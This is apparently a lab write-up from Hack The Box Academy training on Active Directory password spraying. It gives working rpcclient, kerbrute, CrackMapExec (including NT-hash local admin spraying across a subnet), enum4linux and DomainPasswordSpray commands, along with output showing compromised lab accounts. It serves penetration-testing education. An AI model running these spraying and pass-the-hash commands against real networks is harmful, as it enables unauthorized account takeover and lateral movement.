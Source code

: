 # 🗣️ Spray Responsibly

## Internal Password Spraying - from Linux

`Rpcclient` is an excellent option for performing this attack from Linux after creating a wordlist, We can filter out invalid login attempts by `grepping` for `Authority` in the response

**Using a Bash one-liner for the Attack**

```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

In a target environnment this would be the output:

```
ElFelixio@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

**Using Kerbrute for the Attack**

```
ElFelixio@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
```

**Using CrackMapExec & Filtering Logon Failures**

```
ElFelixio@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

After getting the credentials, we can use Crackmapexec to validate the credentials:

**Validating the Credentials with CrackMapExec**

```
ElFelixio@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

### Local Administrator Password Reuse

Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set.

In the example below, we attempt to authenticate to all hosts in a /23 network using the built-in local administrator account NT hash retrieved from another machine.

**Local Admin Spraying with CrackMapExec**

```shell-session
ElFelixio@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

We got valid credentials as local admin on `3` systems in the `172.16.5.0/23` subnet

### Practical example

We start by making a list of valid users and putting it in a list:

```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" >valid_users.txt
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And then we launch our CME command:

```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that, we found a user account starting with the letter "s" that has the password Welcome1

## Internal Password Spraying - from Windows

From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

**Using DomainPasswordSpray.ps1**

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

{% hint style="info" %}
we could also user kerbrute on a windows host
{% endhint %}

#### Practical example

For this question i start by connecting through RDP to the machine and finding the Password spraying tool

```
xfreerdp /v:10.129.62.40 /u:htb-student /p:Academy_student_AD!
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after launching the ps1 file we get a hit:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
